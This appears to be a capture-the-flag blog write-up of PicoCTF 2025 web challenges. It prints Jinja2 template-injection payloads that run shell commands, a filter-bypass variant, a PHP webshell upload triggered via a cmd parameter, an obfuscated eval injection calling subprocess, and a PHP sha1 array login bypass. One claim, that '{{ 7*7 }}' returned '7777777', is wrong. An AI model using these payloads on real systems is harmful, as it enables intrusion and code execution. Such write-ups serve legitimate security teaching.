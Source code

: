 ```yaml
---
title: 'PicoCTF 2025'
date: '2025-04-01'
tags: ['picoCTF', 'picoCTF-2025']
draft: false
summary: 'Writeups for the web challenges in PicoCTF 2025, including SSTI, RCE, and filter bypasses.'
images: ['/static/images/canada/mountains.jpg', '/static/images/canada/toronto.jpg']
authors: ['default']
---
```


Here you'll find writeups for how I solved the challenges from PicoCTF 2025, across all categories — from web and pwn to reverse engineering, crypto, and more.  
Each writeup includes my thought process, techniques, and the final solution.

<TOCInline
  toc={props.toc}
  exclude={['Bypassing Filters', 'Identifying the Template Engine', 'Exploitation']}
/>

# WEB

## SSTI1

From the challenge title, it's clear we're dealing with **Server-Side Template Injection (SSTI)**. I tested various payloads to identify the template engine.

### Identifying the Template Engine

Here are some common payloads for SSTI engine identification:

![template-decision-tree](/static/images/pico2025/template-decision-tree.png)

The payload `{{ 7*7 }}` returned `7777777`, confirming the engine is **Jinja2**.

### Exploitation

To confirm command execution:

```jinja
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('whoami').read() }}
```

Then I used:

```jinja
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag').read() }}
```

And successfully retrieved the flag.

> Reference: [PortSwigger SSTI Guide](https://portswigger.net/web-security/server-side-template-injection)

---

## SSTI2

The vulnerability was confirmed using:

```jinja
{{ 7 * '7' }}
```

Which returned `7777777`.

### Bypassing Filters

This obfuscated payload bypasses filters and executes code:

```jinja
{{ request | attr('application') | attr('__globals__') | attr('__getitem__')('__builtins__') | attr('__getitem__')('__import__')('os') | attr('popen')('id') | attr('read')() }}
```

To read the flag:

```jinja
{{ request | attr('application') | attr('__globals__') | attr('__getitem__')('__builtins__') | attr('__getitem__')('__import__')('os') | attr('popen')('cat flag') | attr('read')() }}
```

> Reference: [SSTI with Jinja2 - OnSecurity](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/)
> Helpful: [SSTI - Medium](https://medium.com/@yadav-ajay/ssti-server-side-template-injection-746dda439038)

---

## n0s4n1ty 1

This challenge allowed uploading `.php` files disguised as images. I injected a PHP reverse shell into the file.

Uploaded to `/uploads/index.php`, then triggered command execution with:

```
/uploads/index.php?cmd=sudo cat /root/flag.txt
```

> Helpful: [Simple PHP reverse shell](https://medium.com/@tareshsharma17/simple-php-reverse-shell-061d4a6bd18d)

---

## HEAD-DUMP

The app includes an API GUI in one article. Among the documented endpoints, `/headdump` dumps memory contents.

![API Docs](https://blog.qz.sg/content/images/size/w1000/2025/03/head-dump-apidocs.webp)
![Memory Dump](https://blog.qz.sg/content/images/2025/03/head-dump-headdump.webp)

I downloaded the dump and ran:

```bash
grep -E "picoCTF{.*}" heapdump-*.heapsnapshot
```

Which revealed the flag.

---

## Cookie Monster Secret Recipe

After attempting login with `admin:password`, I noticed a cookie named `secret_recipe`.

![App Screenshot](https://blog.qz.sg/content/images/2025/03/cookie_monster_secret_recipe-site.webp)
![Cookie Screenshot](https://blog.qz.sg/content/images/2025/03/cookie_monster_secret_recipe-cookie.webp)

The cookie is base64-encoded. I decoded it using CyberChef to get the secret.

---

## 3vl1

This challenge is a calculator using `eval()` to process inputs. From the HTML source:

![Source Code](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*K1HYLTpExgKko7Apz3SRGw.png)

1. Dynamically import subprocess:

   ```python
   __import__('subprocess')
   ```

2. Use `getattr()` to avoid detection:

   ```python
   getattr(__import__('subprocess'), 'check_output')
   ```

3. Obfuscate command with `chr()`:

   ```python
   chr(99)+chr(97)+chr(116)  # "cat"
   chr(47)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)  # "/flag.txt"
   ```

4. Final payload:

   ```python
   getattr(__import__('subprocess'), 'check_output')(['cat', '/flag.txt'])
   ```

Executed through the input field to read the flag.

---

## Aprite Sesamo

We're blocked from logging in. But devs left clues suggesting backup file extensions like `.old`, `.backup`, `~`.

We exploit PHP’s weak typing and `sha1()` behavior with arrays. Send POST data as arrays:

```
username[]=123&pwd[]=456
```

This makes:

```php
$yuf85e0677 = $_POST['username']; // Array
$rs35c246d5 = $_POST['pwd'];     // Array
```

Then `sha1(array)` returns `null`. So:

```php
sha1($yuf85e0677) === sha1($rs35c246d5)
```

Evaluates to `null === null`, which is `true`.

Login bypassed.

![Login Trick](https://miro.medium.com/v2/resize:fit:720/format:webp/1*wBfignfXwwRhmRRa84AHiw.png)
